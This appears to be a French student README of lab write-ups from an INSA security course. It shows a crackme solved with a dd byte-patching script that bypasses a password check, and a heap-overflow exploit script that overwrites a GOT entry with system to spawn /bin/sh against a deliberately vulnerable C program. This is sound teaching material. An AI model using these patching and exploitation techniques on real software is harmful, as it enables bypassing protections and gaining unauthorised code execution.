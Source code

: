 # INSA 2SU 2020

https://bitbucket.org/whitewand/2su_2020/src

## Questions

## TD
### TD1

#### Crack emily

`file Td1.original 
Td1.original: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0456a9207dea8aeec6c747f074818b7b8b231b1d, not stripped`

On lance ensuite Radare2. On peut après l'analyse afficher les strings et les symboles.

![Main](./src/img/main.png)

On peut voir que la fonction main vérifie l'input avec la fonction is_valid:

![is_valid](./src/img/is_valid.png)

On peut extraire le mot de passe: **poop**. On peut voir différentes façons de patcher le binaire, en modifiant le mot de passe dans la section .data (offset: 0x984) ou en patchant le .text du programme. On peut Noped (0x90 opcode = no operation) le *je* (offset: 0x8c6) de main, le *jne* (offset: 0x861) de is valid, et change le mov 0 (offset: 0x86d) de is_valid en mov 1.

Petit script qui fait ca avec dd:

```
#!/bin/bash

echo "#Patching files";echo
cp Td1.original Td1_change_password
cp Td1.original Td1_main_nop_je
cp Td1.original Td1_is_valid_no_jne
cp Td1.original Td1_is_valid_change_mov

printf 'pwnd' | dd of=Td1_change_password bs=1 seek=2436 count=4 conv=notrunc
printf '\x90\x90' | dd of=Td1_main_nop_je bs=1 seek=2246 count=2 conv=notrunc
printf '\x90\x90' | dd of=Td1_is_valid_no_jne bs=1 seek=2145 count=2 conv=notrunc
printf '\x01' | dd of=Td1_is_valid_change_mov bs=1 seek=2157 count=1 conv=notrunc

echo "[+] testing";echo
echo "echo 'pwnd' | ./Td1_change_password"
echo 'pwnd' | ./Td1_change_password;echo
echo "echo 'random' | ./Td1_main_nop_je"
echo 'random' | ./Td1_main_nop_je;echo
echo "echo 'random' | ./Td1_is_valid_no_jne"
echo 'random' | ./Td1_is_valid_no_jne;echo
echo "echo 'random' | ./Td1_is_valid_change_mov"
echo 'random' | ./Td1_is_valid_change_mov;echo
```

résultat:

```
#Patching files

4+0 enregistrements lus
4+0 enregistrements écrits
4 bytes copied, 0,000147782 s, 27,1 kB/s
2+0 enregistrements lus
2+0 enregistrements écrits
2 bytes copied, 0,000114043 s, 17,5 kB/s
2+0 enregistrements lus
2+0 enregistrements écrits
2 bytes copied, 0,000120412 s, 16,6 kB/s
1+0 enregistrements lus
1+0 enregistrements écrits
1 byte copied, 0,000110696 s, 9,0 kB/s
[+] testing

echo 'pwnd' | ./Td1_change_password
Please input a word: That's correct!

echo 'random' | ./Td1_main_nop_je
Please input a word: That's correct!

echo 'random' | ./Td1_is_valid_no_jne
Please input a word: That's correct!

echo 'random' | ./Td1_is_valid_change_mov
Please input a word: That's correct!
```

#### Patch binaire

### TD2
#### Binwalk
### TD3
#### Heap overflow

Nous allons exploiter un binaire dont voici le code source:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct user {
 char * name;
};

int main(int argc, char **argv){

  struct user *bot;
  bot = (struct user*)malloc(sizeof(struct user*));
  bot->name = malloc(sizeof(char)*20);
  strcpy(bot->name, "botname\0");

  struct user *nick;
  nick = (struct user*)malloc(sizeof(struct user*));
  nick->name = malloc(sizeof(char)*20);
  strcpy(nick->name, "nickname\0");

  char buf[256];
  int size;

  //printf("0x%08x\n", printf);

  printf("Change botname?\n");
  memset(buf,0,256); 
  scanf("%s",buf);
  size = strlen(buf);
  strcpy(bot->name, buf);

  printf("Change nickname?\n");
  memset(buf,0,256); 
  scanf("%s",buf);
  strcpy(nick->name, buf);

  printf("Your message?\n");
  memset(buf,0,256); 
  scanf("%s",buf);
  size = strlen(buf);
  free(bot);
  //free(nick);
  printf("Message sent\n");
  return 0;
}
```

Grâce à un heap overflow de la structure 'bot' nous allons pouvoir modifier l'adresse de la structure 'nick'. Ceci va nous donner une écriture arbitraire. Où pourrions nous écrire quelque chose d'interéssant? La Global offset table qui redirige vers les fonctions de la Glibc me parait une bonne cible. On pourrais par exemple remplacer l'adresse de 'strlen' par 'system' et executer '/bin/sh' à la place du message.

exploit:

```
import sys
import struct
from pwn import *


pad = "AAAAAAAA"*4
read_addr = struct.pack("<Q", 0x555555755030) # adresse de strlen dans la GOT
s1 = pad + read_addr + "\n"

strlen = 0x7ffff7a89190 # adresse de strlen dans la Glibc


# step 2 arbitrary writing
system = struct.pack("<Q", strlen-0xfd10) # adresse de system de la Glibc par offset
s2 = system + "\n" + "/bin/sh\n"

sys.stdout.write(s1 + s2)
```
